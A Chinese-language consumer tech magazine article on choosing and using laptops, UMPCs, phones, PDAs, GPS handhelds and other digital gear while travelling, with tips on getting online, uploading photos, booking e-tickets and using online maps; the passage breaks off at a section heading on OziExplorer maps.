主流小型笔记本电脑的价格大多比较昂贵，如果你想节省资金，则完全可以选购二手产品。现在笔记本电脑更新换代速度很快，很多一两年前的主流机型在二手市场上都能见到，比如Sony PCG-TR2、松下CF-R3、夏普PC-MM2-NE6等。价格比新品便宜了不少。最后为大家推荐几款价格在千元左右的超低价二手“迷你”本本。这些产品尽管配置不高，但也足以满足旅途中一般的娱乐和办公要求。最主要是这些二手产品的价格非常低，能够让兜里没几个钱的“穷驴友”也能圆带上本本上路的梦想，用买“数码伴侣”的价格，买一台笔记本电脑何乐不为呢？因为其小巧，不会给背包增添更多负担，因为其廉价，不会让你过多担心旅途中丢失或损坏。推荐大家购买东芝 Liberto 系列、NEC MB20c、富士通 30C、IBM ThinkPad 240 等产品（见图9）。



当然笔记本电脑是很精密的电子产品，其拆卸、维修难度都很大，因此选购二手笔记本电脑时要格外当心，以免带来不必要的经济损失。

### 二、UMPC 的选购及应用

无论你认为 UMPC 是创新还是平板电脑借尸还魂，UMPC 注定是笔记本领域充满争议的“异类”。UMPC 结合了笔记本电脑与掌上型电脑的优点，不仅拥有媲美笔记本电脑的性能，还有如同掌上电脑般的便携性，并且具备所有个人电脑的标准功能，包括看电影，收发邮件，浏览数字照片等。可以说，如果不考虑较为昂贵的价格，UMPC 是我们旅行时携带数码设备的好选择。UMPC 在旅途中有很很多应用：

娱乐当然是 UMPC 的首要应用。除了可随身播放电影、音乐、图片等多媒体文件，玩游戏外，在家中作为电子像框或连接电视或投影仪也是 UMPC 的娱乐重点。UMPC 在娱乐上不应该只是硬盘 MP4 的替代品。

无线联网能力是 UMPC 的另一个应用重点。体积小巧的 UMPC 如果再具备强大的无线联网能力就可以让我们方便的即时获取信息。无线环境结合 SKYPE 网络通话软件，UMPC 甚至可以作为无线语音通讯的终端产品。移动办公是笔记本电脑的传统应用重点，但 UMPC 会更侧重于无线网络连接能力。

车载应用是 UMPC 的最大发展前途。随着汽车日益普及，以 GPS 导航、移动娱乐为代表的车载应用，让 UMPC 找到了最佳的应用切入点。预计今年会有更多的 UMPC 会在车载应用上加入更多的元素，比如内置 GPS 接收器、FM 发射器，以及开发与汽车行车电脑及故障诊断系统的接口及相关软件，采用闪存硬盘（防震），真正成为汽车智能系统的核心。

现在市场上也有很多 UMPC 相关产品，像方正 Mininote、三星 Q1、华硕 R2H 等。这里特别为大家介绍一下内置了 GPS 导航功能的华硕 R2H UMPC。这款产品拥有 7 寸 1280x800 分辨率 WXGA 液晶触控屏，Celeron M 超低压版处理器，主频为 900MHz，256MB DDR2 533 内存，1.8 寸硬盘，预装 Windows XP Tablet PC edition 操作系统以及指纹识别等配置。作为世界第一款内置 GPS 的 UMPC 产品，该机卫星信号接收能力比较强大，采用 SiRF 第三代 GPS 卫星接收芯片。在很大程度上方便了用户在 GPS 导航方面的需求。

另外 UMPC 在今年还可能进一步小型化，像 AHI UMPC，就采用了 5 英寸触摸显示屏，只有 7.3 × 3.5 × 1.3 寸的小巧外型，但 802.11 b/g Wi-Fi、蓝牙、 3G、 GPS 功能一应俱全。富士通还会推出一款采用折叠式的键盘设计的 UMPC，在缩小体积的同时保持了 UMPC 的易用性。现在还有多款 500 克以下能够运行常规操作系统（如 Windows XP）的“微型 PC”，SONY VAIO U50、Vulcan FlipStart、OQO Ultra、Antelope MCC。这些也是我们旅途时重点考虑购买的产品。

### 三、其他相关配件选购和应用

除了笔记本电脑本身，旅途中一些小配件作用也很大（见图 10），比如一个万能电源转换头能避免出现无法插电的尴尬。为方便存储数码照片，PCMCIA 或 USB 读卡器也是必需的。现在市场上有一种 PCMCIA 6 合 1 读卡器支持六种不同的存储卡，是数码相机的好伴侣。其它像 GPS 接收器、蓝牙适配器、 USB 手机充电线、 USB 小灯和风扇、备用车载逆变器、 MP3 无线发射器、投影机、便携音箱等，大家也可以根据需要准备。这些小配件或附属设备能为笔记本在旅途中使用增添很多方便（见图 11）。





笔记本电脑的键盘和指点设备（尤其是小型笔记本），不少人都使用不习惯，长时间使用我们感觉很费劲。这时我们就需要用到外接的键盘和鼠标了。像用柔软材料制作的可卷曲的键盘，就很适合于与笔记本电脑配合使用。体积小巧的光电鼠标，光标移动敏锐精确；对操作平台没有太多的要求，可以在各种物体上使用，是与笔记本电脑搭配的好选择。

携带笔记本电脑外出使用时，由于户外可能会碰到刮风下雨的坏天气，而且磕磕碰碰也在所难免，选购一个做工精良、厚实可靠的笔记本包就显得尤为必要了。有些笔记本包采用了防水的面料，可以有效防止雨水对笔记本液晶以及其它内部元件的侵蚀损害；而厚实的包也可以最大限度减小碰撞对脆弱的液晶屏的损伤。

尽管旅途中大多数宾馆都能看上电视，但在旅途中用本本看电视是很有意思的体验。对于一般笔记本电脑来说，要收看电视的话，可以选用 USB 2.0 接口的外置电视盒（见图 12），大多数 USB 电视盒体积小巧，使用方便，而且不需外接电源就可以在笔记本上看电视。同时它还附带一根天线，也就是说没有外接闭路线也能照常看。且可以接收FM调频广播，内建有喇叭的设计，没有声卡和音箱也能收听到电视和广播的声音。可谓旅途中的好搭档。使用这种电视盒还有一个好处就是能为你的笔记本增加模拟视频采集功能，这在旅途中也是可能有用的。另外现在部分城市开通了无线数字电视，这时你只需为笔记本配置一款数字电视接收模块即可收看效果清晰的数字电视节目。


### 4. 本本和数码相机的配合

随着人们对数字娱乐需求的增加，近年来笔记本电脑在娱乐方面的功能设计不断得到强化，不但外观设计越来越漂亮，而且声音和音响效果也大为加强，甚至电视接收功能都走进笔记本电脑。在旅途中，用笔记本电脑看看影片，听听音乐，玩玩游戏，无疑是非常惬意的。不过笔记本电脑在旅行中更重要的作用是作为音乐播放器、数码相机、数码摄像机等其他电子设备的‘母舰’。下面简单介绍一下本本和数码相机的配合情况。

数码相机几乎是外出旅行时必带的设备，但相机存储卡容量有限且价格昂贵，在长途旅行过程中显然是无法满足我们需求的。但如果你携带了笔记本电脑，这就根本不是什么问题了。配合相机连接线或USB读卡器、PCMCIA转接卡，我们可以方便的将数码相机存储卡中的照片文件，转移到笔记本硬盘上。从而不用担心存储卡的容量问题，从而在旅途中随心所欲拍摄。大多数数码相机可通过USB接口与电脑连接，而且在WIN ME以后的操作系统中能被识别为闪存盘，只需简单将照片文件拷贝到笔记本硬盘上即可。不过建议大家最好使用USB读卡器或PCMCIA转接卡来转移数码照片，可免除携带信号线的麻烦，且减轻了对相机的损耗。如果笔记本电脑带刻录功能，建议再将数码照片刻录到光盘上，多一份保险。

在旅途中，因种种原因导致存储卡上拍摄的照片丢失是很常见的事情。如果你带了笔记本电脑，就完全不用懊恼了，可以使用专门数码照片恢复软件：比如‘DIR’来恢复损坏的数码照片。这款软件使用特别简单，只需将相机中的存储卡取出，用读卡器连接到电脑，运行‘DIR’后，选择存储卡所在的盘符，软件就能自动扫描，并恢复卡上所有能恢复的图片文件。甚至连格式化了的存储卡上的照片都能恢复，功能相当强大。

数码相机还能被笔记本电脑遥控使用（联机后通过计算机操作）。较新的高档数码相机中大多数都自带了遥控软件，比如美能达A1/A2中带的DiMAGE Capture软件，不仅可直接调用相机的所有主要功能，包括曝光补偿、白平衡控制以及实时直方图显示等，而且在计算机显示屏上可确认所有取景器显示信息。可有效地完成大量图像的拍摄、传输、处理等作业。

### 小技巧：旅途中用好本本的MODEM

不少朋友认为笔记本电脑内置的MODEM没有什么用，其实除了拨号上网，现在笔记本MODEM在旅途中对远程办公而言，更有其他有价值的用途。

##### 1. 传真收发

尽管现在网络发达，EMAIL满天飞，但传统的传真收发，由于具备‘白纸黑字’的可靠性，仍是正规办公不可缺少的信息传递手段。在旅途中，我们完全可以使用笔记本电脑内置的MODEM来收发传真（见图13）。WIN95和WIN2K/XP操作系统都内置了传真功能，当然我们也可以使用WINFAX、BITWARE等第三方传真软件。WINDOWS下的传真软件一般是以仿真打印方式工作，安装好传真软件后，系统中就会多出一个传真打印机，用户只须把要发的内容用传真软件模拟的打印机打印即可，要接收传真的活，需要先运行传真接收软件，并连接好电话线。另外如果你所用的手机号码开通了传真功能，甚至可以通过红外接口与手机配合收发传真。用本本进行传真和打印一样方便。另外配合数码相机，还能直接发送一些需要扫描的文件原件。



##### 2. 点对点连接

使用MODEM点对点连接可以最大限度保证数据传输的安全性。使用调制解调器，用电话线就可以与其他计算机点对点连接。具体步骤如下：首先需要安装拨号网络服务器，并添加NetBEUI协议，并与拨号网络绑定。再将‘文件和打印共享’选项选上。并确认双方的计算机名称和描述，重新启动机器。

然后拨入方建立一个拨号连接。打开拨号网络，再双击新建连接，把对方电脑连接的电话号码填上就行了。被拨入的电脑还要设置拨号服务，即将被拨入方的电脑设置成可以接拨入。你可以在‘拨号网络’窗口的‘连接’菜单中设置。单击‘拨号网络服务器’，选择‘允许呼叫者访问’允许其他用户连接到您的计算机上。然后从‘拨号网络服务器的类型’列表中选择PPP服务器类型。双击建立的拨号网络，按连接即可开始连接。双方MODEM正常握手连接后，可以在‘开始’菜单中查找对方的计算机。即可访问对方电脑的共享分区或目录了。按以上完成连接后不仅可以共享文件，也可玩连机游戏。

我们还可以使用系统自带的‘超级终端’软件，通过调制解调器连接远程计算机，发送或接收文件。当然对方计算机必须同样使用超级终端，并处于等待拨入状况。此外，使用MODEM拨号，并配合PcAnywhere等软件，我们还能方便的实现计算机远程控制。

## 其他数码设备篇

旅途中除了数码相机/摄像机、笔记本电脑等设备是我们的好帮手外，其他诸如手机、MP3/MP4播放器、掌上电脑、GPS手持机等数码设备，大家也可以根据自己的需要选购及应用。

### 一、手机

手机可能是现在最普及的随身电子设备，也是我们外出旅游时最有用的数码设备。恐怕没有谁会在旅行时不携带手机吧？手机的功能越来越强大，几乎集通讯网络、摄影摄像、信息处理、媒体播放等功能于一身，有些产品还内置了WIFI、GPS、收音机等特殊功能。对于经常旅行的朋友，在选购手机时要重点注意几个问题，首先从类型上看，首推智能（音乐）手机和三防手机。其次要注意手机的电池性能，即待机和通话时间的长短。另外还注意摄像头的拍摄效果，尽管现在外出旅行时我们都要携带数码相机或摄像机，但一款摄像效果出众的手机可以为我们提供应急和方便使用。现在手机产品种类浩如烟海，比较适合外出旅行时携带的型号有诺基亚N73、诺基亚5500、多普达P800、索爱W810等（见图14）。



旅途中手机（尤其是智能手机）的用途非常多，几乎可以替代DC/DV，GPS设备，MP3/MP4媒体播放器等各类数码设备，可以用来拍摄、上网获取在线资讯、GPS导航、欣赏MP3音乐等等。（相关具体使用技巧我曾在本刊有专文详述，这里就不赘述了）。特别提醒大家注意的一点是，现在手机功能尽管很丰富，但是电池续航能力是个大问题。因此旅途中我们也可以选择携带一台只具备通话、短信等基本功能的手机，但其电池很耐用。而其他功能则DC/DV及后面要介绍的其他各类数码设备完成。这样各司其职，不仅会有较好的使用效果，还能很好的解决电池续航问题。

### 二、掌上电脑

由于智能手机大量出现，现在购买独立掌上电脑的朋友越来越少了。其实从电池续航能力、功能（比如行货智能手机都没有WIFI功能）及扩展性等角度考虑，我们还是可以购买独立掌上电脑作为旅途中的重要数码装备。目前掌上电脑从采用的操作系统上分，有PLAM和WINDOWS M（Pocket PC）两大类，建议大家优先考虑后者。选购时我们要重点注意电池续航能力和扩展性，比如最好选择具备CF插槽的产品。如果掌上电脑具备CF插槽，可以很多扩展设备可以选择。比如大容量的CF存储卡，CF接口的GPS接收器，CF MODEM等。甚至有专为Pocket PC掌上电脑设计的CF电视卡，让用户能随时随地收看电视节目。

对于旅途携带的掌上电脑，强烈建议大家选择具备WIFI无线接入能力的产品，这样我们就可以通过使用SKYPE等软件拨打网络电话，从而大大降低你在旅途中的长途电话费用。而且在通过WIFI无线接入时，我们还可以方便的欣赏在线影视节目（见图15）。

娱乐功能是掌上电脑在旅途中最重要的应用之一。Pocket PC掌上电脑的娱乐功能很强大，它支持几乎所有格式的媒体文件播放，只要使用合适的软件即可，从功能上看远远超过普通的MP3/MP4播放器。在掌上电脑上听MP3更是很轻松的事，很多软件都支持MP3播放，不过这里给大家推荐一款小软件：魔法小歌词。它可以在Pocket PC上播放MP3、RMP、MP2、MPA、OGG、WAV、MIDI等几乎所有常见音频格式，而且其最大特点是能同步显示歌词，你需要做的只是将歌词文件放在音乐文件的同一目录下，或是让它自动从网上支持下载歌词。



PPC上还可以播放Flash动画，更增强了其娱乐功能。我们可以使用功能强大的Bryht Flash Player2.0，支持全屏及横屏，表现相当出色。但这款软件必须配合Macromedia Flash Activex插件才能正常使用。

### 三、MP3/MP4播放器

尽管在智能（音乐）手机和掌上电脑的左右夹击下，MP3/MP4播放器有点“鸡肋”的感觉。其实MP3/MP4播放器还是有很多优点的。比如携带方便，容量较大，性能可靠。电池续航能力较强，价格低廉等。尤其重要的一点是这类产品的操作使用很简单方便，更像普通的家电，适合电脑知识不多的人群购买和使用。现在市场上MP3/MP4播放器种类非常多，建议大家一定要选购知名大厂的产品，质量才能得到足够保证。另外支持的媒体格式越多越好，如果具备游戏安装、语音TTS朗读等扩展功能更好。另外我们可以选择具备AV输出功能的MP4产品（现在有些手机也支持TV输出），这样在旅途中，在宾馆房间里连接到电视上欣赏其中存储的影片，感觉是比较好的。对于追求音质的朋友可以选择MD播放器，MD播放器能更换碟片，更适合外出时携带使用。

对于MP4视频播放器而言，使用时我们一定要注意视频格式的转换工作。如果带有笔记本电脑，可以在旅途中随时将在购买到的碟片或在网上下载的视频文件转化为播放器可以识别格式了。除了播放器自身附带的格式转化文件，推荐大家使用“豪杰视频通”是国内著名的多媒体软件开发商豪杰公司推出的一款全面地视频格式转化工具软件，它的最大特点在于支持现在主流的视频格式文件之间的相互转化，同时使用设置简单，能够让普通用户也能够迅速上手。另外还推荐：All Video Converter这是一款功能强大而简单易用的视频转换工具。可以实现由AVI至AVI(不同编码)/MPEG/VCD/SVCD/DVD/WMV/ASF，或者由MPEG/MPG至AVI(包括DivX等)/WMV/ASF和不同制式(PAL或NTSC)MPEG的转换。

## 四、GPS手持接收器

旅行时（尤其是自驾车旅行），GPS有非常重要的应用。旅途中GPS应用可以使用多种方案实现，关于如何用智能手机、掌上电脑、笔记本电脑实现GPS导航功能，本刊曾有过专文讲解。这里再为大家谈谈GPS手持接收器的选购使用。

### 1. 手持GPS接收器特点及选购

手持机GPS接收器是一种专用GPS接收设备（见图16），不需要与PDA或笔记本电脑配合，本身可以独立完成GPS信号接收及定位功能，现在很多手持机还具备地图功能，具备一定的导航能力。通常手持机设计制造都比较专业化，接收信号能力强，为适应旅途中的野外工作环境，做了一定的“三防”处理，由于功能单纯，操作使用上也比较简单，很受野外工作及探险人士的欢迎。

选购手持机GPS接收器时，我们应注意以下几点：体积重量、“三防”能力，屏幕大小、色彩分辨率；内存大小及是否可扩充、电池使用寿命及是否可更换；是否具有地图功能；是否带电磁罗盘，气压高度计，是否能连接电脑等。

没有地图的手持机对于一般爱好者来说亲合力不强，功能也不够丰富，应该选择带有地图的手持机，而电磁罗盘和气压高度计可以弥补GPS不能在静止状态下辨别方向及测高不准的先天不足。目前国内市场上常见的手持机有Garmin公司的GPS MAP60CS，麦哲伦公司的子午线彩色版(Meridian Color)，Lowrance公司的iFINDER MAP&MUSIC C等，大家可以根据需要选择。

### 2. 手持GPS接收器的基本应用

手持式GPS最重要的就是MARK键和GOTO键使用。MARK键用于定位，即把当前的坐标存到内存里，GPS会自动为这个点起一个名字，而GOTO用于导航，如果有一个已知的点位已经存到了GPS的内存里，并且起了名字，那么按GOTO，再选那个点的名字，就可以计算出从此地到那个已知点的直线距离。MARK和GOTO，也就是定位和测距，是GPS最基本的功能。很多手持式GPS还能与电脑进行连接，上传下载GPS航点数据，如果计算机系统中有GIS软件和电子地图，GPS航点还可以直接投影到电子地图上。

手持GPS与详细地图配合使用时有最好的效果，若有目的地附近的精确地图，可以预先规划线路，先做地图上规划，制定行程计划，按照线路复杂情况和里程，建立一条或多条线路（ROUTE），在图上读出路线特征点的坐标，输入GPS建立线路的各条“腿”，并把一些单独的标志点作为路标(Waypoint)输入GPS。

行进时一是利用GPS确定自己在地图上的位置，二是按照导向功能指示的目标方向，配合地图找路，向目标前进。同时一定要记录各规划点的实际坐标，针对每条规划线路建立另一条实际线路，作为原路返回时使用（“回溯”(Trace back)功能），也可作为路线资料供后人使用。因此我们在使用手持GPS时，最好携带一个录音设备（比如带录音功能的手机或MP3播放器），标记路标后不改变其默认名字，而是录音记录这个路点的详细描述。行程结束后，可根据录音把GPS记载的数据整理成线路描述文件保存，以后别人就可以使用这组数据走这条线路了。

由于国内大比例尺地图十分难得，GPS使用效果受到一定限制。无图使用是更为常见的使用方式。比如使用路点定点，要找的地点坐标须已经以路标的形式存在于GPS的内存中，按GOTO键，从列表中选择你的目的路标，然后转到“导向”页面，上面会显示你离目标的距离、方向角等数据。另外就是路线导向，把某条路线激活，“导向”页会引导你走向路线的第一个点，一旦到达，目标点会自动更换为下一路点，直至到达最终目标。

### 五、其他数码装备

旅途中还有一些小装备可以为我们提供大方便。比如数码伴侣，如果你是摄影爱好者，而又不便携带笔记本电脑出行，那么购买一个数码伴侣就是必要的。现在数码单反相机在使用RAW格式拍摄时，一张图片的大小大约在10M左右，因此就算是使用4G的存储卡，也不过只能保存400张左右的照片。这在外出旅游时是大大不够的。

对于有钱的朋友来说，解决方法可以是多买几张存储卡，对于自驾外出或体力较好的朋友来说，可以随身携带笔记本电脑，随时将拍摄的照片倒入笔记本。不过对于大多数喜欢外出旅游的朋友而言，“数码伴侣”可能是更好的选择。所谓数码伴侣，就是一部内置硬盘、存储卡接口和锂电池的小型设备，在不需要电脑介入的情况下，可以直接通过存储卡接口将卡中的照片备份到硬盘中，从而起到随时备份的作用。由于数码伴侣比笔记本电脑轻得多、小得多，而且通常都有安全保护措施，还可以作为移动硬盘和多功能读卡器使用，所以深受摄影爱好者的喜爱（见图17）。

如果你是一头“酷驴”，经常去没有人的地方暴走，那么太阳能充电器、AA电池应急充电设备、对讲机，甚至卫星电话就是你必须携带的装备（见图18）。

目前比较成熟的卫星通讯系统为全球星系统，是由美国的劳拉和高通公司及12家国际电信企业共同参与开发的全球低轨移动通信卫星系统。该系统由48颗环绕地球运动的低转卫星和全球38个地面关口站组成。它的基本特点是把卫星通信与地面通信网络相结合，建成全球性的“无缝隙”通信网络。

全球星移动卫星电话仅比传统的蜂窝手机稍大，且兼容多种模式，即可以在全球星网使用，也可以在地面AMPS、CDMA和GSM网使用。目前全球星手机价格在1万元左右。通讯费用大约为6元/分钟。使用卫星电话除了普通语音通话，还能连接笔记本电脑上网（见图19）。

最后特别建议大家在外出旅行时带上一台袖珍全波段短波收音机。看似“古董”的收音机，其实是我们在旅途中的好伴侣，尤其是短波电台，可让你在旅途中不受时间地点限制，随时了解到国内外的最新资讯。

## 网络应用篇

前面谈到笔记本在旅途中有用应用，如果再加上宽带网络更可以为我们旅行增加无穷的乐趣。旅途中我们可以在网吧上网，但是更建议大家通过随身携带的笔记本电脑上网，下面就具体谈谈和旅行有关的网络应用。

### 一、笔记本电脑在旅途中如何上网

#### 1. 拨号上网

大多数笔记本电脑都内置了MODEM，可以使用传统的拨号上网方式。具体步骤就是进入“拨号网络”，新建一个连接，选择好设备，然后在拨号号码中填入16300，如果是用宾馆内的内线电话拨号，请加上拨外线的前缀，如916300，用户名和密码也填入16300即可。这样上网的费用大约是每小时4.2元。

拨号上网曾是最流行的上网方式，但现在已经成了鸡肋，既不太方便，需要有电话线的地方才可以上网，而且速度较慢，只有50K左右。但在旅途中也可以作为一种辅助的上网方式，因为有电话线的地方毕竟比有宽带网络接口的地方要多得多。

#### 2. 有线宽带

过去笔记本电脑上网大多通过普通电话线路拨号上网，而现在国内很多星级宾馆都提供了客房上网的服务，大多数采用有线接入的方式，这实际上就是一种局域网共享上网的方法，你只需要用网络线将墙上信息插座和笔记本网卡连接起来，再简单设置一下TCP/IP属性以及网关地址等即可上网冲浪，与在家通过小区宽带或在办公室局域网共享上网的步骤是完全一致的（见图20）。这种上网方式通常是免费的，而且速度较快，是旅途中比较理想的上网方式，但缺点是局限性较大，只能在宾馆房间内上网。

#### 3. 无线宽带

随着Intel大力推广其“迅驰”技术，现在开始流行“热点”区域的无线上网，现在大多数采用了“迅驰技术”的本本，直接支持WLAN，可以在“热点区域”方便的上网，一般本本则加个无线网卡即可。实际上可以简单的将WLAN看成是有线LAN的无线化，其使用非常简单，在有无线网络信号的地方，无线网卡会自动搜寻到无线网络节点。

一般情况下，宾馆内、机场VIP候机区等公共场所的无线网络节点是没有加密设置的，正常连接后，网络属性中会显示当前信号强度，电脑就可以正常上网了。如果不能正常连接的话，就需要询问相关管理人员，看是否要作什么特殊的设置，或者是否要求付费。

#### 4. 无线广域

另外笔记本电脑还能通过GPRS、CDMA 1X、小灵通甚至用卫星电话等广域无线网，实现互联网的接入（见图21），其最大的优点是基本不受时间地点的限制，真正做到“想上就上”。不过由于费用和速度的限制，通常不能作为主流的上网方式，一般只在必要时作应急之用。

笔记本电脑配合GPRS手机上网可以使用数据线、红外线、蓝牙等连接途径与电脑相连，无论什么方式连接后，电脑会自动将手机识别为一个“调制解调器”。再新建一个拨号连接，选择该MODEM拨号，点击下一步，在电话号码的框内输入*99#。用户名、密码留空就可以了，另外还要注意将手机上GPRS选项中的APN（即“接入点名称”）设置为CMNET（CMWAP可以通过代理上，价格便宜，但速度太慢，实用价值不大）。

借助广域无线网，笔记本电脑就可以成为名副其实的移动交流平台，为你的旅行增添无穷的乐趣。

### 二、远程语音及视讯交流

随着宽带网络的发展，网上视频交流现在越来越普及，摄像头也得到了广泛的应用，有些机型安装了内置的摄像头，其实要为自己的笔记本升级摄像头是很方便的。只要你的笔记本有USB接口，我们就可以使用USB摄像头。这类产品台式机和笔记本通用的，有些专为笔记本设计的产品体积做得很小巧，而且有专门设计的夹子，能够方便的固定在笔记本电脑屏幕外框上，方便我们使用。

在旅途中，如果与公司同事有什么重大事情要商量，完全可以用摄像头来召开移动视讯会议。比如使用常见的Net Meeting、MSN、UC、QQ等软件，都能方便的召开移动视讯会议。当然要想取得较好的效果，笔记本电脑需要有速度较快且稳定的宽带接入。

现在有些数码相机还能够直接当作摄像头使用（见图22）。用自带的USB线连接在电脑上，可以通过附带的软件来控制、调节所要的图像帧数、分辨率，使视频效果达到自己满意的效果。由于数码相机成像器件较为高档，用来做摄像头的效果，比普通USB摄像头要好得多。另外通过安装合适的软件我们还可以把PPC或塞班智能手机变笔记本电脑的摄像头。具体方法请参见本刊其他相关文章。

### 三、分享旅途快乐

如果你在旅途中携带有笔记本电脑，我们完全可以随时处理拍摄好的照片，还可以即时通过网络将好的作品与他人分享，并根据需要将照片上传到冲洗网站，等你旅行完毕，一回到家就可以拿到洗好的照片了，感觉是不是很酷呢？相信大家都愿意与大家分享祖国大好河山的美丽景色（见图23）。

要通过网络展示自己的摄影作品，分享旅途快乐的方式有很多，比如通过论坛进行贴图，还有博客、播客等方式，而建立网络相册是最方便的手段。目前国内提供免费网络相册服务的网站很多，如网易个人相册、天极网络相册、TOM网络相册、Yahoo网络相册、DuDu网络相册等。尽管在功能上大同小异，但提供的空间大小和速度快慢差异较大。大家可以经过实际测试后进行选择。

网络相册使用非常简单，只要有一定的上网基础，都能够轻松掌握。以目前使用广泛的网易相册为例，创建完目录后就可以上传图片了，在网易相册上传照片有多种方法：一是使用网易相册上传控件上传，支持批量上传，上传单张照片最大为2M；一次上传照片最多为12张，可以多次上传。二是上传单张照片，进入某个目录后，选择页面左上方的“上传照片”，然后选择你需要上传的图片即可，上传单张相片最大可为5M，可以为上传的图片添加注解。三是上传打包的ZIP或RAR压缩格式文件，要注意上传的压缩文件最大为10M，压缩包里的单个照片尺寸不能超过5M，只可包含.gif或.jpg格式的图片。四是使用专门的软件来上传或下载图片。这就是“网易相册上传(下载)专家”，这款软件支持多任务多线程上传，速度快，支持单个文件、多个文件以及整个目录的上传，十分方便。

### 四、定购电子机票

如果你是一位时尚人士，在出行时选择购买电子机票不仅时尚也很实惠。越来越多的IT新人类开始尝试依赖网络的商旅新时尚，随身携带能上网的笔记本电脑，所要做的只是轻点鼠标，登录各家航空公司的网上购票系统，再加上网上预定酒店和景区门票预定，即轻松搞掂了自己的出行，是不是很酷呢？而且电子机票通常具备较大的价格优势（见图24）。

所谓电子机票，简单说就是普通纸质机票的一种电子映像，是一种电子号码记录，简称电子机票。作为目前最先进的一种客票形式，依托现代信息技术，实现了无纸化、电子化的订票、结账和办理乘机手续等全过程，给旅客带来诸多便利的同时也为航空公司降低了成本。这种机票不仅订票、付款、办理登机手续的全过程都在联网计算机上完成，而且变更出行时间或退票也很方便。

旅客可以随时通过登录各大航空公司网站上的页面预定机票，只要持银联卡，就可以在任何地方、任何时间上网购票，系统将自动分配一个票号。在确认相关信息、通过网上支付之后，得到一个电子票号，然后凭借有效证件在机场登机。旅途中用本本在网上定购电子机票是很实用的。

电子机票的订票过程并不复杂，只要我们具备一定网上购物经历，很容易就可以搞定。首先找到一家提供电子机票订票服务的网站。比如“星期五旅行在线”是国航电子机票网上专业代理机构。我们只需访问 http://www.fridayol.com/，查询航班时刻及机票价格，并通过网上下订单免费预订国航机票，在机票预订成功后，你会得到“订座记录编号PNR”。再将机票款通过网上银行转至该公司银行账户，随后旅客无须拿到传统的纸张机票，只要凭身份证和自行打印的电子客票行程确认单，在飞机起飞前90分钟到机场电子客票柜台办理值机手续，即可得到登机牌及报销凭证，并顺利登机。另外在网上预定酒店房间的流程也差不多。

### 五、网络电子地图应用

最后为大家谈谈网络电子地图的应用情况。电子地图产生于“数字地球”规划的背景下，基于满足各城市政府提出的建设“数字城市”、推进建设“同城电子商务环境”进程的需求。电子地图的应用领域相当广泛，在社区信息化、电子商务和电子政务等领域都有广泛应用。很显然，电子地图对外出旅行的朋友而言，具备很大的实用价值。

电子地图有离线版本和网络版两大类，二者各有优劣。离线版体积庞大，信息实时性不高，但使用时不需要网络支持。而网络版可直接通过浏览器访问，或者只需下载一个体积很小的客户端，地图信息更新及时，但缺点是必须有网络连接时才能使用。对于外出旅行时携带有笔记本电脑的朋友建议两种版本都安装。下面为大家重点介绍一下网络电子地图的应用情况（见图25）。

#### 1. 国产网络电子地图简介

国内网络电子地图近些年获得了很大的发展。像SOHU、SINA等门户网站都设有专门的地图频道。另外著名搜索网站如百度也提供了电子地图服务（map.baidu.com）。还有比较专业的51ditu网站（见图26）。这些电子地图网站大家通过浏览器即可访问并使用，功能一目了然，使用也很简单。另外还有一些需要通过客户端使用的电子地图。

如 Mapbar 小ME 是一款免费绿色软件（见图27），采用全新栅格地图浏览方式，从而使得用户不用安装JAVA虚拟机便可以快速浏览和移动地图图片，同时开通全国430多个城市的地图查询和公交查询服务。同时增加了地图租房、地图找票、地图找房子、找餐饮美食等地图增值服务。小ME通过将搜索引擎式的电子地图查询方式简化、桌面化，以“简洁”“便利”“实用”为设计理念。

Mapbar是中国最领先的电子地图服务提供商，其电子地图的最大优点为地图的浏览速度以及丰富的地图数据量。（地图打开速度最慢至1.0秒；拥有行业内最全的地图信息量）截止到目前为止，Mapbar共为包括Baidu、Sina、Yahoo、Alibaba、QQ、eLong、21cn等2000余家大型网站同时提供在线地图服务。

用户可以在 Mapbar 网站 http://www.mapbar.com 下载最新版本。整个软件客户端的大小只有200多k，并可随时删除。小ME桌面电子地图查询服务系统，让用户的查询更加方便快捷，并同步推出无须用户登录网站的支持地图在线时时更新系统，以及个性电子地图服务，让小ME在电子地图路线查询领域体现了卓越的性能。

还有一款由专业地图网站灵图51ditu提供的“游游”(UU)也是一款不错的电子地图软件（见图28）。灵图UU是一款“免费绿色电子地图软件”：体积小巧，无需安装、卸载，可以任意拷贝和删除，功能却丝毫不逊色于大型电子地图软件。灵图UU依托网络提供迅捷的在线电子地图服务。通过UU，您可以方便、快捷、安全地浏览中国全境电子地图；您可以进行本地搜索、公交查询、驾车出行导航，搜索结果会直观地显示在地图上；您还可以亲自将各种信息标注在地图上，并与朋友分享这些信息……UU支持全国所有大中城市的电子地图浏览并且实时提供地图数据更新。通过“城市列表”您可以以目录检索或拼音检索的方式快速、准确地定位到您所关注的城市位置；对于重点城市，灵图UU还采集了当地最热门的景点、热区、高校等信息，使您足不出户就能对当地最富游览价值的地点了如指掌。

你还可以在指定的城市以名称、地址、门牌号、电话号码等多种方式搜索到街道、建筑物等所在的地理位置，还可以找到离您最近的所有餐馆、学校、银行、公园等等。灵图UU还提供了更加便捷的“拉框浏览”功能，您只要在地图上拖动出一块区域，就马上能看到该区域内与您生活关系最密切的商场、饭店、银行、景点等信息。

### 2. GPS/GoogleEarth 巧结合

由 Google 提供的 Google Earth 服务，无疑是近两年来互联网上最热门的应用之一。通过卫星地图业务不仅可以满足我们“窥视”地球的欲望，更能为我们旅行所带来的便捷，比如我们可用这项服务来观察打算预定的宾馆周围环境，以确定是否选择其作为度假宾馆入住，或者观察出行线路沿途的环境（见图29）。

##### 1) 由 GPS 快速定位地图

Google Earth 的使用并不复杂，打开 http://maps.google.com，点击右上角的 Satellite，即可以使用 Google 的卫星地图服务。界面上面是录入框，可直接输入地名定位地图。左侧是工具按钮。上下左右四个方向键，中间按钮回到最后一次查找的结果。左侧下面是分辨率，点 + 即放大一级，点 - 即缩小一级，也可以拉动中间的滚动条直接改变分辨率。下面谈谈 GPS 与 Google Earth 相结合的情况。

我们知道，在 Google Earth 上有三种办法可以定位你想查找的区域：一是在上方搜索录入框直接输入地名，暂时只支持用英文输入，如输入 chengdu，就可以查找成都的卫星图片；二是将分辨率滚动条拉到最下方，然后在全球地图中逐步放大查找。如果我们携带了 GPS 设备，那么最方便的使用方法是直接输入经纬度，就能准确查看到你所在位置的卫星地图。具体就是将 GPS 测定的经纬度代入 URL: http://maps.google.com/maps?ll=纬度,经度&spn=0.1,0.1&t=k&hl=en，注意，经纬度都使用十进制。

##### 2) 制作 OziExplorer 地图

